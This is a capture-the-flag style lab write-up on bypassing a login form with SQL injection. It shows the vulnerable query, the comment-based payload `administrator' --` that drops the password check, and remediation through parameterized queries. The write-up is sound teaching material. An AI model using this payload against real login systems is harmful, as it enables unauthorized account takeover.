

# SQL Injection Vulnerability Allowing Login Bypass


## Objective

Exploit a SQL injection vulnerability in the login form to gain unauthorized access to the administrator account.


## Recon & Observations

- The application contains a login page.
- Authentication is performed using the `username` and `password`.
- User input appears to be directly incorporated into a SQL query.


## Vulnerability Analysis

The application likely constructs a query similar to:

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password'
```

Because user input is inserted directly into the query, it is possible to alter the query logic.


## Exploitation Steps

### 1. Identify the Login Functionality

Navigated to the login page and examined the authentication request.

Example request:

```http
POST /login

username=test
password=test
```

### 2. Test for SQL Injection

Injected a single quote (`'`) into the username field to determine whether the application handled SQL metacharacters safely.

### 3. Craft the Authentication Bypass Payload

Submitted the following payload in the username field:

```sql
administrator' --
```

Password field:

```text
anything
```

### 4. Modify the SQL Query

The resulting query becomes similar to:

```sql
SELECT * FROM users
WHERE username = 'administrator' --'
AND password = 'anything'
```

The comment sequence (`--`) causes the remainder of the query to be ignored.

As a result, the password verification step is removed from the query.



### 5. Gain Access

The application authenticated the session as the administrator account without requiring the correct password.


## Result

Successfully bypassed the authentication mechanism and gained access to the administrator account.

The lab was solved after logging in as the administrator user.


## Security Impact

An attacker could gain unauthorized access to user accounts without knowing valid credentials.

Potential consequences include:

- Account takeover
- Privilege escalation
- Access to sensitive information


## Root Cause

The application directly concatenates user input into SQL statements.

Because special SQL characters are not handled safely, attackers can modify the intended query logic and bypass authentication controls.


## Remediation

- Use parameterized queries (prepared statements).
- Never build SQL queries through string concatenation.
- Apply server-side input validation.
- Implement secure authentication mechanisms.
- Monitor and log suspicious authentication attempts.


## Lessons Learned

- SQL injection can affect authentication systems, not just data retrieval.
- The SQL comment operator (`--`) can be used to remove security checks from a query.
- User input must never be trusted inside SQL statements.
- Authentication logic should always be protected using parameterized queries.